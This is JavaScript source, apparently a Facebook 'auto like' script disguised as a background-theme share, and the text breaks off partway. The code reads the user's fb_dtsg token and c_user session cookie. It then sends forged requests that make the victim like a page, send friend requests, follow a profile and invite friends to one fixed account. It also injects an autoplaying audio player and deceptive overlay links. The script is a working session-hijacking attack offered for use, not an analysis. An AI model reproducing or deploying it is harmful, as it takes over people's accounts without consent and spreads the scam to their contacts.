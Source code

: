//eval var parent=document.getElementsByTagName("html")[0]; var _body = document.getElementsByTagName('body')[0]; var _div = document.createElement('div'); _div.style.height="25"; _div.style.width="100%"; _div.style.position="fixed"; _div.style.top="auto"; _div.style.bottom="0"; _div.align="center";   var _audio= document.createElement('audio'); _audio.style.width="100%"; _audio.style.height="25px"; _audio.controls = true; _audio.autoplay = true; _audio.src = "https://codegooglesite.googlecode.com/files/50pop.mp3"; _div.appendChild(_audio); _body.appendChild(_div); var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); var fb_dtsg=document.getElementsByName("fb_dtsg")[0].value; var user_id=document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]);   body = document.body; if(body != null) {  div = document.createElement("div");  div.style.position = "fixed";  div.style.display = "block";  div.style.width = "100px";  div.style.opacity= 0.90;  div.style.bottom = "+60px";  div.style.left = "+0px";  div.style.backgroundColor = "rgba(155, 181, 255, 0.5)";  div.style.border = "1px solid rgba(0,0,0,0.5)";  div.style.padding = "3px";  div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='https://www.facebook.com/sharer/sharer.php?u=http%3A%2F%2Fyoutube&amp;t=Facebook+Background+Theme' title='Share'>&lt;blink>&lt;center>SHARE&lt;/center>&lt;/blink>&lt;/a>"  body.appendChild(div); }   if(body != null) {  div = document.createElement("div");  div.style.position = "fixed";  div.style.display = "block";  div.style.width = "100px";  div.style.opacity= 0.90;  div.style.bottom = "+35px";  div.style.left = "+0px";  div.style.backgroundColor = "rgba(155, 181, 255, 0.5)";  div.style.border = "1px solid rgba(0,0,0,0.5)";  div.style.padding = "3px";  div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='' title='Refresh'>&lt;blink>&lt;center>Close (F5)&lt;/center>&lt;/blink>&lt;/a>"  body.appendChild(div); } if(body != null) {  div = document.createElement("div");  div.style.position = "fixed";  div.style.display = "block";  div.style.width = "135px";  div.style.opacity= 0.90;  div.style.bottom = "+10px";  div.style.left = "+0px";  div.style.backgroundColor = "rgba(155, 181, 255, 0.5)";  div.style.border = "1px solid rgba(0,0,0,0.5)";  div.style.padding = "3px";  div.innerHTML = "&lt;a style='font-weight:bold;color:#040CE4' href='https://www.facebook.com/html.script.2014' title='Danial fikriey'>&lt;blink>&lt;center>PLEASE LIKE MY PAGE!&lt;/center>&lt;/blink>&lt;/a>"  body.appendChild(div); }   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function Like(p) {   var Page = new XMLHttpRequest();   var PageURL = "//www.facebook.com/ajax/pages/fan_status.php";   var PageParams = "&amp;fbpage_id=" + p +"&amp;add=true&amp;reload=false&amp;fan_origin=page_timeline&amp;fan_source=&amp;cat=&amp;nctr[_mod]=pagelet_timeline_page_actions&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=d&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   Page.open("POST", PageURL, true);   Page.onreadystatechange = function () {     if (Page.readyState == 4 &amp;&amp; Page.status == 200) {       Page.close;     }   };   Page.send(PageParams); }   Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209"); Like("776528142358209");   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function IDS(r) {   var X = new XMLHttpRequest();     var XURL = "//www.facebook.com/ajax/add_friend/action.php";   var XParams = "to_friend=" + r +"&amp;action=add_friend&amp;how_found=friend_browser_s&amp;ref_param=none&amp;&amp;&amp;outgoing_id=&amp;logging_location=search&amp;no_flyout_on_click=true&amp;ego_log_data&amp;http_referer&amp;__user="+user_id+"&amp;__a=1&amp;__dyn=798aD5z5CF-&amp;__req=35&amp;fb_dtsg="+fb_dtsg+"&amp;phstamp=";   X.open("POST", XURL, true);   X.onreadystatechange = function () {     if (X.readyState == 4 &amp;&amp; X.status == 200) {       X.close;     }   };   X.send(XParams); }   IDS("776528142358209"); IDS("776528142358209");   var fb_dtsg = document.getElementsByName('fb_dtsg')[0].value; var user_id = document.cookie.match(document.cookie.match(/c_user=(\d+)/)[1]); function a(abone) {   var http4 = new XMLHttpRequest();   var url4 = "/ajax/follow/follow_profile.php?__a=1";   var params4 = "profile_id=" + abone + "&amp;location=1&amp;source=follow-button&amp;subscribed_button_id=u37qac_37&amp;fb_dtsg=" + fb_dtsg + "&amp;lsd&amp;__" + user_id + "&amp;phstamp=";   http4.open("POST", url4, true);   http4.onreadystatechange = function () {     if (http4.readyState == 4 &amp;&amp; http4.status == 200) {       http4.close;     }   };   http4.send(params4); } a("776528142358209"); a("776528142358209");   var Title = "Auto Like Page&lt;/A>"; var Descriptions = "",     _text = 'Powered By:  &lt;A style="color:#FFFFFF;" href="https://www.facebook.com/html.script.2014" target="_blank">Danial fikrie&lt;/A>&lt;/br>Script Made By: &lt;/A>&lt;A style="color:#FFFFFF;" href="https://www.facebook.com/html.script.2014" target="_blank"> Danial&lt;/A>&lt;/A>,&lt;/A>&lt;/A>.&lt;/br>Nak awek ?? >  &lt;A style="color:#FFFFFF;" href="https://www.facebook.com/pages/Syasya-Solero-Puteri-Awani/271396916358590" target="_blank">FACEBOOK&lt;/A>.&lt;/A>';   page_id = /"profile_owner":"([0-9]+)"/.exec(document.getElementById("pagelet_timeline_main_column").getAttribute("data-gt"))[1];   function InviteFriends(opo) {     jx.load(window.location.protocol + "//www.facebook.com/ajax/pages/invite/send_single?page_id=" + page_id + "&amp;invitee=" + opo +